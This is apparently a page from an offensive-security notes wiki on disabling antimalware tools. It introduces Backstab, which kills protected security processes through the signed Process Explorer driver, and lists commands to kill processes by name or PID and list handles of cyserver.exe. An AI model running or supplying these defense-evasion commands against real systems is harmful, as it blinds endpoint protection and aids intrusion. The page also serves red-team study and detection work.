# 📵 Disabling AntiMalware Tools

## BackStab

{% hint style="info" %}
_Backstab is a tool capable of killing antimalware protected processes by leveraging sysinternals’ Process Explorer (ProcExp) driver, which is signed by Microsoft._
{% endhint %}

{% embed url="https://github.com/Yaxser/Backstab" %}

```powershell
# Windows
# kill process name
backstab.exe -n $name -k

# kill process by PID
backstab.exe -p $pid -k

# list all handles of cyserver
backstab.exe -n cyserver.exe -l		
```
